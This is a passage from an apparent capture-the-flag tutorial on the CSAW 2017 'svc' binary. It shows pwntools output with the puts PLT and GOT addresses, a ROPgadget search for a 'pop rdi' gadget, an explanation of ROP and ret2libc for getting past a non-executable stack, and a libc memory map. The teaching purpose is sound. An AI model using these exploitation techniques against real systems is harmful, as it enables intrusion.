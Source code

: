 ```
$ python3
Python 3.8.10 (default, Sep 28 2021, 16:10:42)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> elf = ELF('svc')
[*] '/Hackery/nightmare/modules/08-bof_dynamic/csawquals17_svc/svc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> print("plt address: " + hex(elf.symbols['puts']))
plt address: 0x4008d0
>>> print("got address: " + hex(elf.got['puts']))
got address: 0x602018
```

To find the rop gadget we need, we can use a ROP gadget finding utillity called ROPGadget (https://github.com/JonathanSalwan/ROPgadget):

```
$ python3 ROPgadget.py --binary svc | grep "pop rdi"
0x0000000000400ea3 : pop rdi ; ret
```

The last mitigation we will overcome is the Non-Executable Stack. This essentially means that the stack does not have the execute permission. So we cannot execute code on the stack. Our method to bypass this will be using a mix of a simple ROP chain, and a ret2libc (return to libc) attack. ROP (return oriented programming) is when we essentially take bits of code that are already in the binary, and stitch them together to make code that does what we want. It will be comprised of ROP gadgets, which are essentially pointers to bits of code that end in a `ret` instruction, which will make it move to the next gadget. Since these are all valid instruction pointers to code that should run, it will be marked as executable and we won't have any issues. Also a fun side not, if we were to make a ROP gadget that jumps in the middle of an instruction, it would completely change what the instruction does.

One more thing, since our exploit relies off of the libc memory region, the version of libc running will make a bit of a difference with the exploit's offsets. It isn't anything too big, but you will need to make a few changes. If you are running a different libc version than what I am, your offsets here should be different. To see what libc version you are running, you can use the `vmmap` command:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000402000 0x0000000000000000 r-x /Hackery/csaw/svc
0x0000000000601000 0x0000000000602000 0x0000000000001000 r-- /Hackery/csaw/svc
0x0000000000602000 0x0000000000603000 0x0000000000002000 rw- /Hackery/csaw/svc
0x0000000000603000 0x0000000000635000 0x0000000000000000 rw- [heap]
0x00007ffff716c000 0x00007ffff7182000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libgcc_s.so.1
0x00007ffff7182000 0x00007ffff7381000 0x0000000000016000 --- /lib/x86_64-linux-gnu/libgcc_s.so.1
0x00007ffff7381000 0x00007ffff7382000 0x0000000000015000 rw- /lib/x86_64-linux-gnu/libgcc_s.so.1
0x00007ffff7382000 0x00007ffff748a000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libm-2.23.so
0x00007ffff748a000 0x00007ffff7689000 0x0000000000108000 --- /lib/x86_64-linux-gnu/libm-2.23.so
0x00007ffff7689000 0x00007ffff768a000 0x0000000000107000 r-- /lib/x86_64-linux-gnu/libm-2.23.so
0x00007ffff768a000 0x00007ffff768b000 0x0000000000108000 rw- /lib/x86_64-linux-gnu/libm-2.23.so
0x00007ffff768b000 0x00007ffff784b000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff784b000 0x00007ffff7a4b000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7a4b000 0x00007ffff7a4f000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7a4f000 0x00007ffff7a51000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7a51000 0x00007ffff7a55000 0x0000000000000000 rw-
0x00007ffff7a55000 0x00007ffff7bc7000 0x0000000000000000 r-x /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
0x00007ffff7bc7000 0x00007ffff7dc7000 0x0000000000172000 --- /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
```